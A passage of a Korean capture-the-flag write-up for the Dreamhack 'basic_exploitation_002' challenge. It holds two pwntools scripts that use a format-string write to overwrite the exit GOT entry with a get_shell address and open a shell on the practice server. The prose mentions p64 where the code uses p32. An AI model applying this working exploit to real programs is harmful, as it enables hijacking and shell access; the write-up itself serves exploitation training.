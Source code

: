 결론적으로, `%2052c` + `%[n]$hn` + `%32261` + `%[n]$hn` + `p64(exit_got + 2)` + `p64(exit_got)`를 해주면 된다.

포맷스트링 형식자 길이가 `23bytes` 이기 때문에, 중간에 `b"a"`를 하나 추가해서 `24bytes`를 맞춰주면, `p64(exit_got + 2)`는 `[rsp + 24]`인 `7`번째에 존재하고, `p64(exit_got)`는 `8`번째에 존재하게 된다.

따라서, 첫번째 `n`은 `7`으로, 두번째 `n`은 `8`로 설정하여 페이로드를 전달해주면 익스플로잇 성공이다.

# Exploit

```
from pwn import *

context.arch = "i386"

p = remote("host3.dreamhack.games", 10698)
elf = ELF("./basic_exploitation_002")

get_shell = elf.symbols['get_shell']
# get_shell = 0x08048609  # 134514185
exit_got = elf.got['exit']
# exit_got = 0x804a024

# 0x0804 = 2052
# 0x8609 = 34313
payload = b"%2052c%7$hn"        # 0x0804 = 2052 : 길이 11bytes
payload += b"%32261c%8$hn"      # 0x8609 = 34313 (34313 - 2052 = 32261) : 길이 12byte
payload += b"a"                 # 24bytes로 맞추기 위해 1bytes 추가
payload += p32(exit_got + 2)    # 여기까지 28바이트 차지
payload += p32(exit_got)

# payload = b"%34313c%7$hn" # 여기까지 12바이트 차지
# payload += b"%2052c%8$hn" # 여기까지 23바이트 차지
# payload += b"a" # 여기까지 24바이트 차지
# payload += p32(exit_got) # 여기까지 28바이트 차지
# payload += p32(exit_got + 2)

p.send(payload)
p.interactive()
```

### 참고 `ex2.py` 처럼 코드 섹션을 Overwrite 하려고 하면 쓰기 권한이 없어서 안된다.

```
from pwn import *

context.arch = "i386"

p = remote("host3.dreamhack.games", 10698)
elf = ELF("./basic_exploitation_002")

get_shell = elf.symbols['get_shell']
# get_shell = 0x08048609  # 134514185

addr_exit = 0x8048648  # exit 함수가 실행되는 코드 섹션의 주소

# 0x0804 = 2052
# 0x8609 = 34313
payload = b"%2052c%7$hn"        # 0x0804 = 2052 : 길이 11bytes
payload += b"%32261c%8$hn"      # 0x8609 = 34313 (34313 - 2052 = 32261) : 길이 12byte
payload += b"a"                 # 24bytes로 맞추기 위해 1bytes 추가
payload += p32(addr_exit + 2)   # 여기까지 28바이트 차지
payload += p32(addr_exit)

p.send(payload)
p.interactive()
```